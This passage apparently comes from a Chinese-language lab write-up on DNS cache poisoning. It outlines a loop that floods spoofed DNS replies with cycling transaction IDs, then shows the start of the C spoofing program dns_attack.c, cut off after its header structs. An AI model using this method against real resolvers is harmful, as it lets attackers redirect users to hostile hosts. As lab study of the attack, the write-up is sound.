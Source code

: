 偏移量为0x1c，十进制为28。

攻击程序dns_attack.c的编写逻辑：

1. 每轮循环开始，先运行一次伪造请求包和响应包的python程序；
2. 打开`query.bin`和`reply.bin`，写入缓存区。
3. 发送DNS请求包；
4. 修改`reply.bin`的dns序列号，从1000~65535(观察了一下，发包速度相当快，可以支持多发一些包)，转换成大端字节序再写入(也可以不转)。并重新计算dns的chksum。
5. 依次发送这些DNS响应包。再回到1重新循环。

发包的C程序dns_attack.c：

```c
// ----udp.c------
// This sample program must be run by root lol!
//
// The program is to spoofing tons of different queries to the victim.
// Use wireshark to study the packets. However, it is not enough for
// the lab, please finish the response packet and complete the task.
//
// Compile command:
// gcc -lpcap dns_attack.c -o dns_attack
//
//

#include <unistd.h>
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <netinet/udp.h>
#include <fcntl.h>
#include <string.h>
#include <errno.h>
#include <stdlib.h>
#include <libnet.h>
// The packet length
#define PCKT_LEN 8192
#define FLAG_R 0x8400
#define FLAG_Q 0x0100

// Can create separate header file (.h) for all headers' structure
// The IP header's structure
struct ipheader
{
    unsigned char iph_ihl : 4, iph_ver : 4;
    unsigned char iph_tos;
    unsigned short int iph_len;
    unsigned short int iph_ident;
    //    unsigned char      iph_flag;
    unsigned short int iph_offset;
    unsigned char iph_ttl;
    unsigned char iph_protocol;
    unsigned short int iph_chksum;
    unsigned int iph_sourceip;
    unsigned int iph_destip;
};

// UDP header's structure
struct udpheader
{
    unsigned short int udph_srcport;
    unsigned short int udph_destport;
    unsigned short int udph_len;
    unsigned short int udph_chksum;
};
struct dnsheader
```